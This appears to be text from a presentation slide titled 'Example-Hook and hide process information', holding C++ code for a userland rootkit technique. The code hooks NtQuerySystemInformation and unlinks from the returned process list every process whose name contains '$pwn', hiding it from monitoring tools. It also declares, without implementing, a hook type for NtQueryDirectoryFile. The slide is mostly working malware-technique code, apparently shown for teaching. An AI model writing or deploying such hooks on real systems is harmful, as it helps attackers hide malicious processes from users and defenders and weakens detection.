

Example-Hook and hide process information
#define STATUS_SUCCESS  ((NTSTATUS)0x00000000L)

using lpNtQuerySystemInformation = NTSTATUS (WINAPI *)(SYSTEM_INFORMATION_CLASS SystemInformationClass, PVOID SystemInformation, ULONG SystemInformationLength, PULONG ReturnLength);
lpNtQuerySystemInformation lpOrgNtQuerySystemInformation;

using lpNtQueryDirectoryFile = NTSTATUS (WINAPI *)(HANDLE FileHandle, HANDLE Event, PIO_APC_ROUTINE ApcRoutine, PVOID ApcContext, PIO_STATUS_BLOCK IoStatusBlock, PVOID FileInformation, ULONG Length, FILE_INFORMATION_CLASS FileInformationClass, BOOLEAN ReturnSingleEntry, PUNICODE_STRING FileName, BOOLEAN RestartScan);
lpNtQueryDirectoryFile lpOrgNtQueryDirectoryFile;

char lpCurrentProcessName[MAX_PATH];
char lpCurrentDirectoryName[MAX_PATH];
//this function is to hide certain processes with name including "$pwn"
NTSTATUS WINAPI hkNtQuerySystemInformation(SYSTEM_INFORMATION_CLASS SystemInformationClass, PVOID SystemInformation, ULONG SystemInformationLength, PULONG ReturnLength)
{                     //returns information about processes
	const NTSTATUS QueryStatus = lpOrgNtQuerySystemInformation(SystemInformationClass, SystemInformation, SystemInformationLength,ReturnLength);
	if (SystemInformationClass == _SYSTEM_INFORMATION_CLASS::SystemProcessInformation && QueryStatus == STATUS_SUCCESS)
	{
		PSYSTEM_PROCESS_INFORMATION lpCurrentProcess; //process information
		auto lpNextProcess = (PSYSTEM_PROCESS_INFORMATION)SystemInformation;

		do
		{
			lpCurrentProcess = lpNextProcess;
			lpNextProcess = (PSYSTEM_PROCESS_INFORMATION)((DWORD_PTR)lpCurrentProcess + lpCurrentProcess->NextEntryOffset); //obtain the next process information

			wcstombs_s(nullptr, lpCurrentProcessName, lpNextProcess->ImageName.Buffer, MAX_PATH); //Converts a sequence of wide characters to a corresponding sequence of multibyte characters
			lpCurrentProcessName[MAX_PATH - 1] = '\0';

			if (StrStrIA(lpCurrentProcessName, "$pwn"))
			{
				if (lpNextProcess->NextEntryOffset == 0)   //trying to hide the next process ("$pwn") //it’s the last process
					lpCurrentProcess->NextEntryOffset = 0;
				else
					lpCurrentProcess->NextEntryOffset += lpNextProcess->NextEntryOffset;

				lpNextProcess = lpCurrentProcess;
			}

		} while (lpCurrentProcess->NextEntryOffset != 0);
	}

	return QueryStatus;
}